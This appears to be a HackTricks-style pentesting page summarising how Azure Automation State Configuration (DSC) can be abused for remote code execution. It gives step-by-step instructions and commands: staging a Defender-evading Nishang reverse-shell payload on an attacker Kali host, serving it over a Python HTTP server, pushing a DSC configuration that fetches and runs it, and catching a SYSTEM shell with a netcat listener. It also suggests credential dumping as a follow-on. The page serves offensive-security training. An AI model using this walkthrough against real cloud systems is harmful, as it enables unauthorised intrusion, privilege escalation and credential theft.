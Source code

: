 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

The process involves setting up a remote server infrastructure to host a modified Nishang `Invoke-PowerShellTcp.ps1` payload, named `RevPS.ps1`, designed to bypass Windows Defender. The payload is served from a Kali Linux machine with IP `40.84.7.74` using a simple Python HTTP server. The operation is executed through several steps:

#### Step 1 — Create Files

- **Files Required:** Two PowerShell scripts are needed:
  1. `reverse_shell_config.ps1`: A Desired State Configuration (DSC) file that fetches and executes the payload. It is obtainable from [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
  2. `push_reverse_shell_config.ps1`: A script to publish the configuration to the VM, available at [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Customization:** Variables and parameters in these files must be tailored to the user's specific environment, including resource names, file paths, and server/payload identifiers.

#### Step 2 — Zip Configuration File

- The `reverse_shell_config.ps1` is compressed into a `.zip` file, making it ready for transfer to the Azure Storage Account.

```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

#### Step 3 — Set Storage Context & Upload

- The zipped configuration file is uploaded to a predefined Azure Storage container, azure-pentest, using Azure's Set-AzStorageBlobContent cmdlet.

```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

#### Step 4 — Prep Kali Box

- The Kali server downloads the RevPS.ps1 payload from a GitHub repository.

```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

- The script is edited to specify the target Windows VM and port for the reverse shell.

#### Step 5 — Publish Configuration File

- The configuration file is executed, resulting in the reverse-shell script being deployed to the specified location on the Windows VM.

#### Step 6 — Host Payload and Setup Listener

- A Python SimpleHTTPServer is started to host the payload, along with a Netcat listener to capture incoming connections.

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```

- The scheduled task executes the payload, achieving SYSTEM-level privileges.

#### Conclusion

The successful execution of this process opens numerous possibilities for further actions, such as credential dumping or expanding the attack to multiple VMs. The guide encourages continued learning and creativity in the realm of Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
